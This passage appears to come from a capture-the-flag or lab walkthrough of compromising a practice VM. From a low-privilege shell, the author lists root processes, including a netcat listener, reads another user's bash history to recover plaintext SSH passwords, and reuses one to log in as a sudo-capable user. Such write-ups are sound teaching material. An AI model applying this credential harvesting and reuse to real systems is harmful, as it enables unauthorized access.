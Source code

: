 ```bash
root      1131  0.0  0.5  42308  5856 ?        S    10:29   0:00 /usr/sbin/smbd -D
root      1276  0.0  0.2  34088  2828 ?        Ss   10:29   0:00 /usr/lib/postfix/sbin/master
root      1285  0.0  0.2   5720  2784 ?        S    10:29   0:00 /bin/bash /root/python.sh
root      1287  0.0  0.2   5724  2956 ?        S    10:29   0:00 /bin/bash /usr/local/src/nc.sh
root      1289  0.0  0.3   6472  3076 ?        S    10:29   0:00 su -c authbind php -S 0.0.0.0:80 -t /home/www/ &>/dev/null www
root      1299  0.0  0.3   6472  3200 ?        S    10:29   0:00 su -c cd /home/JKanode; python2 -m SimpleHTTPServer 8888 &>/dev/null JKanode
root      1300  0.0  0.1   4748  1468 tty1     Ss+  10:29   0:00 /sbin/agetty --noclear tty1 linux
root      3617  0.0  0.0   2692   660 ?        S    12:19   0:00 nc -nlvp 666
www-data  8465  0.0  0.0   3028   844 pts/1    S+   15:09   0:00 grep root
$ cd /home/JKanode
cd /home/JKanode
$ ls
ls
$ ls -al
ls -al
total 24
drwxr-xr-x  2 JKanode JKanode 4096 Jun  5  2016 .
drwxr-xr-x 32 root    root    4096 Jun  4  2016 ..
-rw-r--r--  1 JKanode JKanode  167 Jun  5  2016 .bash_history
-rw-r--r--  1 JKanode JKanode  220 Sep  1  2015 .bash_logout
-rw-r--r--  1 JKanode JKanode 3771 Sep  1  2015 .bashrc
-rw-r--r--  1 JKanode JKanode  675 Sep  1  2015 .profile
$ cat .bash_history
cat .bash_history
id
whoami
ls -lah
pwd
ps aux
sshpass -p thisimypassword ssh JKanode@localhost
apt-get install sshpass
sshpass -p JZQuyIN5 peter@localhost
ps -ef
top
kill -9 3747
exit
```

Both credentials did in fact work. Doing so as `JKanode` didn't gain me much, but doing so as the `peter` was a lot more interesting as this user turned out to be one of the `sudoers`:

```bash
$ ssh peter@localhost
ssh peter@localhost
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (127.0.0.1)' can not be established.
ECDSA key fingerprint is SHA256:WuY26BwbaoIOawwEIZRaZGve4JZFaRo7iSvLNoCwyfA.
Are you sure you want to continue connecting (yes/no)? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
-----------------------------------------------------------------
~          Barry, do not forget to put a message here           ~
-----------------------------------------------------------------
peter@localhosts password: JZQuyIN5

Welcome back!


This is the Z Shell configuration function for new users,
zsh-newuser-install.
You are seeing this message because you have no zsh startup files
(the files .zshenv, .zprofile, .zshrc, .zlogin in the directory
```
